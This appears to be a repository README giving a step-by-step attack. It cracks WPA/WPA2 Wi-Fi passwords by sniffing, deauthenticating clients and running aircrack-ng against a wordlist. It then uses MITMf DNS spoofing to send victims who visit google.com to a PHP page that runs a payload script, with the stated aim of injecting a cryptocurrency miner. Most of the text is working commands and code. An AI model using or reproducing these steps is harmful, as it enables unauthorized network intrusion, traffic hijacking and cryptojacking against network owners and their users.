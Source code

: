 # Gaining access to WPA/WPA2 with short/easy password and inject mining script
Video of victim side is uploaded
## Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   1. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   2. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering.
7. Compare the captured MIC with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
## Part 2. Injecting malicious script to victim machine.
The general idea is to use MITM attack and do DNS spoofing. When the victim visites google.com, I will redirect him to php file under my server and execute the payload
1. Install MITMf
2. Change the /etc/mitmf/mitmf.conf file, add the following line below the IPv4 address record line
```
*.google.com=LOCALHOST_IP_IN_THE_TARGET_NETWORK/PATH_TO_PHP.php
```
3. Create the php file, Code I used is 
```
<?php
$result = shell_exec('/var/www/html/payload.sh');
echo $result;
?>
<a href="https://www.google.com">Continue to Google</a>
```

